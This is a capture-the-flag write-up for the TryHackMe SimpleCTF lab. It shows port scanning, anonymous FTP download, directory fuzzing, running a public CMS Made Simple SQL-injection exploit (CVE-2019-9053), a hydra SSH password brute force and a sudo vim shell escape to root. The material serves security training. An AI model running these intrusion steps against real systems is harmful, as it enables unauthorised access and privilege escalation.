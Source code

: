 ```yaml
---
title: TryHackMe | SimpleCTF
author: Zeropio
date: 2022-09-29
categories: [TryHackMe, Rooms]
tags: [thm, linux]
permalink: /tryhackme/simplectf
---
```


# Foothold

The nmap show:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.2.17
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

We try logging to the ftp as **anonymous**:

```console
zero@pio$ ftp anonymous@10.10.69.153                                                                                    
	Connected to 10.10.69.153.
	220 (vsFTPd 3.0.3)
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
ftp> ls
	229 Entering Extended Passive Mode (|||41322|)
```

It seems we can access but no execute commands, so we download the whole ftp:

```console
zero@pio$ wget -m --no-passive ftp://anonymous@10.10.69.153
```

There we can find a file: `ForMitch.txt`{: .filepath}:

```console
zero@pio$ cat ForMitch.txt 
	Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

The webserver show a default Apache page, so we can try fuzzing:

```console
zero@pio$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'http://10.10.69.153/FUZZ'

	simple                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 159ms]
	server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 105ms]
	                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 107ms]
```

Under `/simple/`{: .filepath} we can see they are using CMS Made Simple version 2.2.8. This version is vulnerable to **CVE-2019-9053**. 

---

# Fingerprint

With this [exploit](https://www.exploit-db.com/exploits/46635) we can get an valid user:

```console
zero@pio$ python2 46635.py -u 'http://10.10.69.153/simple/' --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
```

Now we can use hydra to get a password:

```console
zero@pio$ hydra -l mitch -P /usr/share/seclists/Passwords/Common-Credentials/best110.txt ssh://10.10.69.153 -s 2222

	[2222][ssh] host: 10.10.69.153   login: mitch   password: secret
```

Now we can login in the system.

---

# Privilege Escalation

We can see in the server that we have sudo permission over `vim`. With [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo) we can quickly escalate:

```console
$ sudo -l
	User mitch may run the following commands on Machine:
	    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

# whoami
	root
```